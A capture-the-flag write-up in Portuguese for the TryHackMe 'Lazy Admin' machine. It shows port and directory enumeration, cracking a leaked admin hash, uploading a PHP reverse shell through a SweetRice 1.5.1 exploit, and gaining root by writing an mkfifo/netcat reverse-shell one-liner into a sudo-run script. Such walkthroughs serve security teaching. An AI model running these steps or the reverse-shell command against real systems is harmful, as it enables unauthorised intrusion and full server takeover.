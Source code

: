 <h1><b>Segue Writeup da maquina Lazy Admin Final do Try Hack Me</h1>

<br><br>
<b>Enumeração das portas com o NMAP 
  
```
┌──(xnv㉿kali)-[~]
└─$ nmap -A 10.10.49.240

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 04:08 EDT
Nmap scan report for lazyadmin.com (10.10.240.121)
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.82 seconds
```

<b>Eumeração de arquivos e pastas com o WFUZZ
  
```
┌──(xnv㉿kali)-[~]
└─$ wfuzz -c -w /usr/share/dirb/wordlists/common.txt --hc 404,403 -u http://10.10.49.240/FUZZ -t 100

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        375 L    968 W      11321 Ch    "http://10.10.49.240/"
000001027:   301        9 L      28 W       314 Ch      "content"
000002020:   200        375 L    968 W      11321 Ch    "index.html"
```
<b>Após encontrar a pasta "content", fiz uma nova enumeração das pastas colocando o content
  
```
┌──(xnv㉿kali)-[~]
└─$ wfuzz -c -w /usr/share/dirb/wordlists/common.txt --hc 404,403 -u http://10.10.49.240/content/FUZZ -t 100
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        35 L     151 W      2198 Ch     "http://10.10.49.240/content/"
000000478:   301        9 L      28 W       317 Ch      "as"
000000505:   301        9 L      28 W       325 Ch      "attachment"
000000089:   301        9 L      28 W       322 Ch      "_themes"
000001991:   301        9 L      28 W       321 Ch      "images"
000002010:   301        9 L      28 W       318 Ch      "inc"
000002021:   200        35 L     151 W      2198 Ch     "index.php"
000002179:   301        9 L      28 W       317 Ch      "js"
```
<b>Depois de verificar as pastas e arquivos listados, encontrei um arquivo .sql 
  
![Capturar](https://user-images.githubusercontent.com/90646635/133702386-4aca21e1-f88d-4a3b-b77b-eceedbc6dd0b.PNG)

<b>Nesse arquivo .sql você irá encontrar um usuário e senha para logar na aplicação.
  
```
"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
```

<b>Para quebrar esse hash usei o "https://crackstation.net/", com o usuário e senha é só acessar a aplicação no url.
  
![2](https://user-images.githubusercontent.com/90646635/133703615-493a9493-20bf-421b-9af9-090b59e23e94.PNG)

  
<b>Logado vi que se tratava de uma aplicação chamada SweetRice com a versão 1.5.1, com essas informações fui caçar no "https://www.exploit-db.com/"
  
![3](https://user-images.githubusercontent.com/90646635/133704110-9ba96cc1-a21c-47aa-99b5-0d4be571cb21.PNG)

<b>O exploit vai fazer upload de um arquivo para o servidor, então coloquei uma Web Shell, mas o exploit pede algumas extensões especificas escolhi a .php5
  
```
┌──(xnv㉿kali)-[~/thm/lazyadminfinal]
└─$ mv php-reverse-shell.php php-reverse-shell.php5
```
<b>Então Vamos executar o Exploit, ele irá pedir as seguintes informações, URL , USERNAME , PASSWORD , FILE
  
```
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |                                                    
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : 10.10.49.240/content
Enter Username : manager
Enter Password : ***********
Enter FileName (Example:.htaccess,shell.php5,index.html) : php-reverse-shell.php
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.49.240/content/attachment/php-reverse-shell.php5
```
  
Colocamos o netcat para ficar aguardando a Web Shell   
```
┌──(xnv㉿kali)-[~/thm/lazyadminfinal]
└─$ nc -lnvp 4455 
```
  
<b>Com a Web Shell no servidor e o netcat aguarando uma resposta, é só dar um Curl nela que será executada.
  
```
┌──(xnv㉿kali)-[~/thm/lazyadminfinal]
└─$ curl http://10.10.49.240/content/attachment/php-reverse-shell.php5
```
<b>E então temos uma Shell no servidor
  
![4](https://user-images.githubusercontent.com/90646635/133705881-0f406078-6a64-473a-a52a-52275830e835.PNG)
  
<b>E então pegamos a flag User 
  
```  
www-data@THM-Chal:/home/itguy$ cat user.txt
THM{********************************}
```
  
<b> Para encontrar a flag Root, damos um 
  
```
www-data@THM-Chal:/home/itguy$ sudo -l

Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
<b> No arquivo backup.pl, mostra que ele executa um arquivo que está em /etc/
  
![5](https://user-images.githubusercontent.com/90646635/133706646-9251298c-0345-4556-abf0-b5c7411e4658.PNG)

<b> Então coloquei um reverse shell lá dentro já que eu tinha permissão para isso.

```
www-data@THM-Chal:/home/itguy$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.21 4445 >/tmp/f" > /etc/copy.sh
```
  
<b> Liguei outro netcat ouvindo a porta 4445
 
``` 
┌──(xnv㉿kali)-[~]
└─$ nc -lnvp 4445
```
  
<b>E executei o arquivo backup
  
```
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
```
<b> E assim temos o usuario root, é só ler o arquivo root.txt
  
```
# cat /root/root.txt
THM{********************************}  
```

